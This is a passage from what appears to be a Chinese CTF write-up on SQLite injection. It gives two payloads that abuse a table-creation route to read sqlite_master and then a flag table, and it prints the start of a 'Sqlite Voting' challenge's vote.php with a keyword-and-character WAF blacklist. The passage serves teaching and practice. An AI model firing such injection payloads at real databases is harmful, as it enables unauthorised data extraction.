 payload1：

```
//路由 create 下 post
table_name=landv as select sql [&amp;columns[0][name]=abc&amp;columns[0][type]=] from sqlite_master;
```

[![](https://p1.ssl.qhimg.com/t0174268a528d73878d.png)](https://p1.ssl.qhimg.com/t0174268a528d73878d.png)

返回填充的第一行就是我们查出来的创建 `FLAG_TABLE` 的原始语句，同理，我们可以借此查出 flag 。

payload2：

```
//路由 create 下 post
table_name=landv as select flag_2a2d04c3 [&amp;columns[0][name]=abc&amp;columns[0][type]=] from flag_bf1811da;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0153aec2f79ec1a63a.png)

这道题主要是面向创表过程中可能的注入，但实际中运用得少（没有权限），接下来我们看整体。

### <a class="reference-link" name="Sqlite%20Voting"></a>Sqlite Voting

给了数据库文件和部分源码。

vote.php

```
&lt;?php
error_reporting(0);

if (isset($_GET['source'])) `{`
  show_source(__FILE__);
  exit();
`}`

// waf
function is_valid($str) `{`
  $banword = [
    // dangerous chars
    // " % ' * + / &lt; = &gt; \ _ ` ~ -
    "[\"%'*+\\/&lt;=&gt;\\\\_`~-]",
    // whitespace chars
    '\s',
    // dangerous functions
    'blob', 'load_extension', 'char', 'unicode',
    '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp',
    'in', 'limit', 'order', 'union', 'join'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) `{`
    return false;
  `}`
  return true;
`}`

header("Content-Type: text/json; charset=utf-8");

// check user input
if (!isset($_POST['id']) || empty($_POST['id'])) `{`
  die(json_encode(['error' =&gt; 'You must specify vote id']));
`}`
```